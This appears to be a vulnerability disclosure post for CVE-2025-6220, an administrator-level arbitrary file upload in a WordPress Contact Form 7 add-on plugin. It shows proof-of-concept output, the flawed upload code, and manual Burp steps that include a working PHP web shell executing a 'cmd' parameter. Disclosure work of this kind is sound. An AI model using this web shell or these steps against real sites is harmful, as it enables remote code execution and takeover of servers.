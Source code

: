 +++
title = 'Ultimate Addons for Contact Form 7 <= 3.5.12 - Authenticated (Administrator+) Arbitrary File Upload via save_options'
date = 2025-06-17T00:00:12+00:00
hideToc = true
tags = ["CVE", "WordPress"]
+++
### CVE-2025-6220

The [Ultimate Addons for Contact Form 7](https://wordpress.org/plugins/ultimate-addons-for-contact-form-7/) plugin does not sanitize the file types in its options save functionality, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits
* A POC [CVE-2025-6220.py](https://github.com/d0n601/CVE-2025-6220/blob/master/CVE-2025-6220.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```console
python3 CVE-2025-6220.py https://lab1.hacker admin PASSWORD

Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
70e7b99966
Uploading web shell: shell.php
{"status":"success","message":"Options saved successfully!"}
Web Shell Location: https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 61299sec preferred_lft 61299sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86240sec preferred_lft 14240sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:bd:e1:95:26 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details
The `uacf7_options_save` functionality in `/wp-content/plugins/ultimate-addons-for-contact-form-7/admin/tf-options/classes/UACF7_Settings.php` processes file uploads without enforcing proper file type validation.

Lines [894-920](https://plugins.trac.wordpress.org/browser/ultimate-addons-for-contact-form-7/trunk/admin/tf-options/classes/UACF7_Settings.php#L894-920) of the `save_options()` function check the HTTP request for $_FILES and only validates the MIME type against a generic `application/octet-stream`. It will then store the file in a web accessible directory `/wp-content/uploads/itinerary-fonts`.

```php
$tf_fonts_extantions = array( 'application/octet-stream' );
for ( $i = 0; $i < count( $_FILES['file']['name'] ); $i++ ) {
    if ( in_array( $_FILES['file']['type'][ $i ], $tf_fonts_extantions ) ) {
        $tf_font_filename = $_FILES['file']['name'][ $i ];
        move_uploaded_file( $_FILES['file']['tmp_name'][ $i ], $tf_itinerary_fonts . '/' . $tf_font_filename );
    }
}
```

## Manual Reproduction
1. Login to the admin panel and navigate to `Ultimate Addons -> Settings`.
2. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
3. Click the `Save` button in the lower right hand corner. 
![test1](/posts/images/cve-2025-6220/1.png)
4. Intercept the POST request in Burp, and append your own file data (ensure you use the correct form boundaries).
```
------WebKitFormBoundarydAJeoqdwR5qxfDb1
Content-Disposition: form-data; name="file[]"; filename="shell.php"
Content-Type: application/octet-stream

<?php
// Silence is golden
if (!empty($_GET['cmd'])) {
    echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
}
------WebKitFormBoundarydAJeoqdwR5qxfDb1--
```
![test2](/posts/images/cve-2025-6220/2.png)

5. Forward the request and verify the response indicates success:
```json
{"status":"success","message":"Options saved successfully!"}
```
6. Navigate to `https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php` to execute the proof of concept.
![test3](/posts/images/cve-2025-6220/3.png)
